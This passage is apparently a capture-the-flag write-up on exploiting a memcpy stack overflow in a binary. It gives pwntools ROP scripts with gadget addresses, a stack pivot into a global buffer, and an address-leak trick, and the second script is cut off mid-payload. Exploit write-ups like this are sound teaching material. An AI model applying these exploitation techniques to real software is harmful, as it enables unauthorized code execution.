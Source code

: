 Here we can see that `memcpy` is being used to copy input into the buffer of small size causing the overflow, let’s run it gdb and check for offset.

![Screenshot](/static/writeups/airtech/1.png)

we can see the offset at 120 but one thing to be noticed that only 18 bytes are dropping on the return buffer which mean that we can only run only three gadgets, and that’s not enough to call shell, so let’s run `vmmap` and check for available regions of to pivot the stack also we have access of that place, as we can in the code our initial input  is at global variable of data of size 0x1000 so if we pivot the stack their we can as many gadgets as we want there.

```bash
from pwn import *
# context.terminal = ["tmux", "splitw", "-h"]
elf = context.binary = ELF("./main")
libc = elf.libc

p=process(aslr=True)

p.sendlineafter(b"option:",b"1")
p.recvuntil(b"message:")

pop_rbp = 0x40118d 

payload = cyclic(120)
payload += p64(pop_rbp)
payload += p64(elf.sym.data+136) # => pivoted the stack to this location 
payload += p64(leave_ret) # => mov rbp in rsp and ret
p.sendline(payload)
p.interactive()
```

running this payload shows that our stack is pivoted to this section as seen in `*RSP 0x4044b8 (data+152) ◂— 0` now lets leak the address using `cout` because we don’t have puts in the code, for in order to call `cout` we need gadgets like `pop rdi` and `pop rsi`, but as confirmed through `ROPgadget` both of the gadgets aren’t available, but then how do we get the leak?

Here I created a technique which I just think of randomly and worked, so as we know the `cout` is already being called in code multiple of times so what I think that those `cout` arguments are already set up and only if we call the existing section of code where `cout` is being called by just moving or popping `rax` before calling that part of code to call `cout`  again, we can get the leak because just before `cout` it moves `rax` into `rsi` . And luckily enough we have the gadget of `pop rax` . let’s put it into action.

```bash
from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
elf = context.binary = ELF("./main")
libc = elf.libc

p=process(aslr=True)

gdb.attach(p)
p.sendlineafter(b"option:",b"1")
p.recvuntil(b"message:")

pop_rax = 0x4011b5
mem_cpy_got = 0x404028
leave_ret = 0x401439
print_acc_func = 0x4011ba # vulnerable function to overflow the buffer
pop_rbp = 0x40118d 

payload = cyclic(120)
payload += p64(pop_rbp)
payload += p64(elf.sym.data+136) # => pivoted the stack to this location 
payload += p64(leave_ret) # => mov rbp in rsp and ret
```